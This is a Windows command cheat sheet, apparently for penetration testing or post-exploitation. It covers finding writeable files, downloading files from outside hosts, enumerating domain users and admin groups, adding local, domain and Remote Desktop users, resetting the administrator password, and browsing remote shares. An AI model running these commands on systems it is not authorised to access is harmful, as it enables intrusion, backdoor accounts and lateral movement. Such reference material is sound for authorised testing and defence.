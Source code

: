 ```bat
    -to set a default program for opening a given filetype associate an extension with a defined filetype value(which multiple extensions my be associated with), then set the default program to execute files of a given type with
dir /a-r-d /s /b
    -check directory for writeable files
powershell Get-ChildItem -Recurse | Get-Acl | out-string -stream | select-string -pattern "everyone"
    -check for world-writeable files
   
File Transfer  
iexplore.exe http://blah.com/filename.zip
C:\windows\explorer.exe http://somewhere.com/filename.ext
ftp ftp.site.dom
   
   
USERS
whoami
net users
net user /domain
    -list users in current domain
net user username
    -list user info
net user name pass /add
    -add local system user
net user user_name * /domain
    -add user to domain with interactive prompt for password
net user name setpword
net user /DOMAIN %USERNAME%
    -check user's network group membership
net user /domain user
    -check another user's information
net group "Domain Users" /domain
    -list users in AD group
net localgroup "administrators" /domain
    -list domain local group users
net group “Domain Admins” /domain
net group “Enterprise Admins” /domain
net group “Domain Controllers” /domain
NET LOCALGROUP "Remote Desktop Users" trinity /ADD
net accounts
    -prints password policy for locahost
net accounts /domain
dsmod user /?
    -get dsmod commands cruft
dsmod user administrator -pwd NewPassword -mustchpwd yes
    -modify user password, set pwExpired flag
 
 
NETWORK
arp -A
net view
    -view available network share hosts
net view \\HOST
    -view available shares on host
net view /domain:otherdomain
    Queries NBNS/SMB (SAMBA) and tries to find all hosts in ‘otherdomain’
tasklist /V /S computername
qwinsta /SERVER:computername
qprocess /SERVER:computername *
net use \\computername This maps IPC$ which does not show up as a drive but allows you to access the remote system as the current user. This is less helpful as most commands will automatically make this connection if needed
dir \\computername\share_or_admin_share\
```